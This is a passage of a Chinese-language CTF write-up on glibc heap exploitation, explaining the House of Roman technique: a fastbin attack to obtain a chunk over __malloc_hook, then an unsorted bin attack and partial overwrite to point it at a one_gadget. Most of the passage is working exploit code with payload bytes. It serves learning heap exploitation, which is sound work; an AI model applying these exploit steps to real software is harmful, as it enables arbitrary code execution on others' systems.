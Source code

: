 其实结合unsortbin attack的话可以有有更高的可玩性（比如House of Roman），我们bss段里不存在合适的fastbin 对象，可以通过unsortbin attack写入，然后错位构建一个fastbin attack。[案例](https://blog.csdn.net/qq_43986365/article/details/104636687)

**House of Roman**

尝试使用unsortbin，将main _arena+0x88的地址写入malloc_hook。然后利用之前的fastbin attack，对malloc_hook进行partial write，修改为one_gadget。

*1.获取一个malloc_hook的chunk*

使用fastbin attack，获取一个能控制malloc_hook的chunk

```python
malloc(0x80,"house of roman")#0

malloc(0x20,"O"*0x10)	#1
malloc(0x40,"A"*0x10)	#2
malloc(0x65,"B"*0x10)	#3
malloc(0x10,"C"*0x10)	#4

#malloc_hook control
edit(1,0x30,"\x00"*0x20+p64(0)+p64(0xc1)) # size 0x51 ->0x51+0x70
free(3)
free(2)
malloc(0x40,"X"*0x10)  #5 #将main_arena值写入fastbin

edit(2,0x52,"\x01"*0x40+p64(0)+p64(0x71)+"\xed\x1a") #部分地址写，修改到malloc_hook
#malloc(0x65,"\x78\x1b") #fix unsortbin #6	
malloc(0x65,"DD") 
sh=0x601005
#malloc(0x65,"D"*0x3+p64(0)*2)#+p64(sh))
malloc(0x65,"D") #7 #控制malloc_hook的chunk，留着备用

#修复fastbin
free(6) #free 一个0x65的chunk，然后将fd->0，这是一个很有创意的思路
edit(6,0x8,p64(0)) #fix fastbin #nice
```

在使用fastbin attack之后，利用free 一个chunk，然后将fd->0（UAF），来Fix chunk，这是一个很好的思路。

*2.unsortbin attack*

通过unsortbin attack写入main_arena+0x88 到malloc_hook。然后再用之前获取到chunk，修改malloc_hook的低字节位置，修改为one_gadget。

```python
#house of roman
free(0)
edit(0,0x10,p64(0)+"\x00\x1b") 
malloc(0x80,"AAA")	#unsortbin attack -> malloc_hook 

#write one_gadget
edit(7,0x40,"\x01"*3+p64(0)*2+"\x16\x22\xa5")
#edit(7,0x40,"\x01"*3+p64(0)*2+"\xa4\xd2\xaf")
#edit(7,0x40,"\x01"*3+p64(0)*2+"\x47\xe1\xaf")
```

